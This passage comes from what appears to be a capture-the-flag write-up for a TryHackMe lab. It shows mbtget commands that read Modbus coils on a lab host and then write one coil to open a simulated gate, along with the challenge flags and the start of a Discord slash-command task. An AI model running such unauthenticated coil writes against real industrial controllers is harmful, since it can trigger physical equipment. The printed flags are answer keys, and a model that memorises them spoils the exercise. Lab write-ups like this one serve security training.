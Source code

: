 
#### 5. **Enumerated coils (0-40) to identify potential triggers**

```bash
mbtget -r1 -u 1 -a 0 -n 40 10.10.6.209
```

✔️ Found coils 20 and 25 were **1**, others **0**.

---

#### 6. **Tested candidate gate trigger (coil 30)**

```bash
mbtget -w5 1 -u 1 -a 30 10.10.6.209
```

✅ **Gate opened**, revealing flag:

```
THM{s4v3_th3_d4t3_27_jun3}
```

---

### 💡 **Lessons Learned**

* Modbus logic often separates **preconditions (badge/motion)** from **action triggers (gate open coil)**.
* Always scan for unreferenced coils when flows don’t deploy expected actions.

---

<a id="task-4--discord"></a>

## 📝 **Task 4 – Discord**

### 🗂️ **Category:** Discord

### 🎯 **Difficulty:** Beginner

### 🏷️ **Flag:** THM{D15C0RD\_57A5H\_C0MM4ND5}

---

### 🔍 **Step-by-Step Walkthrough**

#### 1. **Joined challenge Discord server.**

#### 2. **Executed slash command to retrieve flag:**

```
/secret-function
```
